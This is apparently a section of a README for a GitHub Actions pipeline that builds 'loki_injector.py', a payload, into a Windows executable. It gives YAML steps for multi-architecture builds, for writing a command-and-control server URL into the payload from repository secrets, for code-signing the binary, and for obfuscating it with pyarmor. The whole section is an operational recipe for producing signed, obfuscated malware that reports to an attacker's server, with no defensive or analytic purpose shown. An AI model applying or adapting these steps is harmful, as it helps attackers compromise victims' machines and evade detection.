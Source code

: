 
## 🔧 Advanced Configuration

### Add Build Matrix (Multiple Architectures)

Edit `.github/workflows/build-windows-exe.yml`:

```yaml
jobs:
  build-windows-exe:
    runs-on: windows-latest
    strategy:
      matrix:
        arch: [x64, x86]
    
    steps:
      - name: Build for ${{ matrix.arch }}
        run: |
          pyinstaller --onefile --target-arch=${{ matrix.arch }} loki_injector.py
```

### Add C2 Server Configuration via Secrets

1. **Add secret in GitHub:**
   - Repo → Settings → Secrets → Actions
   - New repository secret:
     - Name: `C2_SERVER_URL`
     - Value: `https://your-c2-server.com`

2. **Update workflow:**

```yaml
- name: Configure C2 Server
  run: |
    cd payloads/output/windows
    sed -i 's|REPLACE_WITH_YOUR_C2_SERVER|${{ secrets.C2_SERVER_URL }}|g' loki_injector.py
  shell: bash
```

### Add Code Signing

```yaml
- name: Sign executable
  run: |
    signtool sign /f certificate.pfx /p ${{ secrets.CERT_PASSWORD }} /tr http://timestamp.digicert.com dist/loki_injector.exe
```

### Add Obfuscation

```yaml
- name: Obfuscate payload
  run: |
    pip install pyarmor
    pyarmor pack loki_injector.py
```

---